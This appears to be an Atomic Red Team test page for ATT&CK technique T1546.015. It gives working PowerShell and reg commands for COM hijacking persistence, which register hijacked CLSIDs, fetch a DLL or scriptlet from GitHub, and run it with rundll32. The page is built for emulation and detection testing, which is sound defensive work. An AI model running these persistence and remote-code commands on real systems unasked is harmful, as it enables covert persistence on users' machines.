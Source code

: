 # T1546.015 - Component Object Model Hijacking
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/015)
<blockquote>Adversaries may establish persistence by executing malicious content triggered by hijacked references to Component Object Model (COM) objects. COM is a system within Windows to enable interaction between software components through the operating system.(Citation: Microsoft Component Object Model)  References to various COM objects are stored in the Registry. 

Adversaries can use the COM system to insert malicious code that can be executed in place of legitimate software through hijacking the COM references and relationships as a means for persistence. Hijacking a COM object requires a change in the Registry to replace a reference to a legitimate system component which may cause that component to not work when executed. When that system component is executed through normal system operation the adversary's code will be executed instead.(Citation: GDATA COM Hijacking) An adversary is likely to hijack objects that are used frequently enough to maintain a consistent level of persistence, but are unlikely to break noticeable functionality within the system as to avoid system instability that could lead to detection. </blockquote>

## Atomic Tests

- [Atomic Test #1 - COM Hijacking - InprocServer32](#atomic-test-1---com-hijacking---inprocserver32)

- [Atomic Test #2 - Powershell Execute COM Object](#atomic-test-2---powershell-execute-com-object)

- [Atomic Test #3 - COM Hijacking with RunDLL32 (Local Server Switch)](#atomic-test-3---com-hijacking-with-rundll32-local-server-switch)

- [Atomic Test #4 - COM hijacking via TreatAs](#atomic-test-4---com-hijacking-via-treatas)


<br/>

## Atomic Test #1 - COM Hijacking - InprocServer32
This test uses PowerShell to hijack a reference to a Component Object Model by creating registry values under InprocServer32 key in the HKCU hive then calling the Class ID to be executed via rundll32.exe.

Reference: https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/

**Supported Platforms:** Windows


**auto_generated_guid:** 48117158-d7be-441b-bc6a-d9e36e47b52b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| clsid_threading | Threading Model | string | Apartment|
| dllpath | Path to the DLL. | String | $env:TEMP&#92;AtomicTest.dll|
| clsid | Class ID to hijack. | string | {B5F8350B-0548-48B1-A6EE-88BD00B4A5E7}|
| clsid_description | Description for CLSID | string | MSAA AccPropServices|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Value '#{clsid_description}'
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Value #{dllpath}
New-ItemProperty -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Name 'ThreadingModel' -Value '#{clsid_threading}' -PropertyType "String"
Start-Process -FilePath "C:\Windows\System32\RUNDLL32.EXE" -ArgumentList '-sta #{clsid}'
```

#### Cleanup Commands:
```powershell
Remove-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: DLL For testing
##### Check Prereq Commands:
```powershell
if (Test-Path #{dllpath}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/bin/AtomicTest.dll" -OutFile "#{dllpath}"
```




<br/>
<br/>

## Atomic Test #2 - Powershell Execute COM Object
Use the PowerShell to execute COM CLSID object.
Reference: https://pentestlab.blog/2020/05/20/persistence-com-hijacking/

**Supported Platforms:** Windows


**auto_generated_guid:** 752191b1-7c71-445c-9dbe-21bb031b18eb






#### Attack Commands: Run with `powershell`! 


```powershell
$o= [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39"))
$item = $o.Item()
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
```

#### Cleanup Commands:
```powershell
Get-Process -Name "*calc" | Stop-Process
```





<br/>
<br/>

## Atomic Test #3 - COM Hijacking with RunDLL32 (Local Server Switch)
This test uses PowerShell to hijack a reference to a Component Object Model by creating registry values under InprocServer32 key in the HKCU hive then calling the Class ID to be executed via "rundll32.exe -localserver [clsid]". 
This method is generally used as an alternative to 'rundll32.exe -sta [clsid]' to execute dll's while evading detection. 
Reference: https://www.hexacorn.com/blog/2020/02/13/run-lola-bin-run/
Upon successful execution of this test with the default options, whenever certain apps are opened (for example, Notepad), a calculator window will also be opened.

**Supported Platforms:** Windows


**auto_generated_guid:** 123520cc-e998-471b-a920-bd28e3feafa0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| clsid_threading | Threading Model | string | Both|
| dll_path | Path to the DLL. | String | $env:temp&#92;T1546.015_calc.dll|
| clsid | Class ID to hijack. | string | {B5F8350B-0548-48B1-A6EE-88BD00B4A5E7}|
| clsid_description | Description for CLSID | string | MSAA AccPropServices|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Value '#{clsid_description}'
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Value #{dll_path}
New-ItemProperty -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Name 'ThreadingModel' -Value '#{clsid_threading}' -PropertyType "String"
Start-Process -FilePath "C:\Windows\System32\RUNDLL32.EXE" -ArgumentList '-localserver #{clsid}'
```

#### Cleanup Commands:
```powershell
Remove-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: DLL For testing
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/bin/T1546.015_calc.dll" -OutFile "#{dll_path}"
```




<br/>
<br/>

## Atomic Test #4 - COM hijacking via TreatAs
This test first create a custom CLSID class pointing to the Windows Script Component runtime DLL. This DLL looks for the ScriptletURL key to get the location of the script to execute.
Then, it hijacks the CLSID for the Work Folders Logon Synchronization to establish persistence on user logon by creating the 'TreatAs' with the malicious CLSID as default value. The
test is validated by running 'rundll32.exe -sta "AtomicTest"' to avoid logging out.

References:

https://youtu.be/3gz1QmiMhss?t=1251

https://github.com/enigma0x3/windows-operating-system-archaeology

**Supported Platforms:** Windows


**auto_generated_guid:** 33eacead-f117-4863-8eb0-5c6304fbfaa9






#### Attack Commands: Run with `powershell`! 


```powershell
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest" /ve /T REG_SZ /d "AtomicTest" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest.1.00" /ve /T REG_SZ /d "AtomicTest" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest\CLSID" /ve /T REG_SZ /d "{00000001-0000-0000-0000-0000FEEDACDC}" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest.1.00\CLSID" /ve /T REG_SZ /d "{00000001-0000-0000-0000-0000FEEDACDC}" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}" /ve /T REG_SZ /d "AtomicTest" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\InprocServer32" /ve /T REG_SZ /d "C:\WINDOWS\system32\scrobj.dll" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\InprocServer32" /v "ThreadingModel" /T REG_SZ /d "Apartment" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\ProgID" /ve /T REG_SZ /d "AtomicTest" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\ScriptletURL" /ve /T REG_SZ /d "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/src/TreatAs.sct" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\VersionIndependentProgID" /ve /T REG_SZ /d "AtomicTest" /f

reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\TreatAs" /ve /T REG_SZ /d "{00000001-0000-0000-0000-0000FEEDACDC}" /f

rundll32.exe -sta "AtomicTest"
```

#### Cleanup Commands:
```powershell
reg delete "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest" /f
reg delete "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}" /f
reg delete "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}" /f
```





<br/>
